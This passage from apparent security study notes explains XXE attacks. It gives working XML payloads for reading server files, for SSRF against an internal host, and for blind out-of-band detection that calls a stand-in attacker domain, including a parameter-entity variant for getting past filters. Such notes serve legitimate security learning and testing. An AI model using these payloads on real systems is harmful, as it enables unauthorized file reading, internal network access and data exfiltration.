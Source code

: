 ```xml
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
# NOTE: With real-world XXE vulns, there will often be a large number of data values -> test all and see response
```
{% endcode %}

## Exploiting XXE to perform SSRF attacks

{% code overflow="wrap" fullWidth="true" %}
```xml
You need to define an external XML entity using the URL that you want to target, and use the defined entity 
within a data value. If so -> you will be the response from the URL / if not -> you have blind SSRF attack
# Example of external entity causing HTTP request to a internal system:
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
{% endcode %}

## Blind XXE vulnerabilities

The app does not return the values of any defined external entities in its responses.

* Out-of-band techniques to find vulnerabilities and exploit them to exfiltrate data.
* Trigger XML parsing errors that lead to disclosure of sensitive data within error messages

### Detecting blind XXE using out-of-band (OAST) techniques

{% code overflow="wrap" fullWidth="true" %}
```xml
# Same for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
This XXE attack causes the server to make a back-end HTTP request to the specified URL. 
Attacker can monitor the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful. 

############################## XML parameter entities
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the app or some hardening
of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. 
XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. 
# The declaration of an XML parameter entity includes the percent character before the entity name:
<!ENTITY % myparameterentity "my parameter entity value" >
# Parameter entities are referenced using the percent character instead of the usual ampersand: 
%myparameterentity;
#  This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows: 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
{% endcode %}
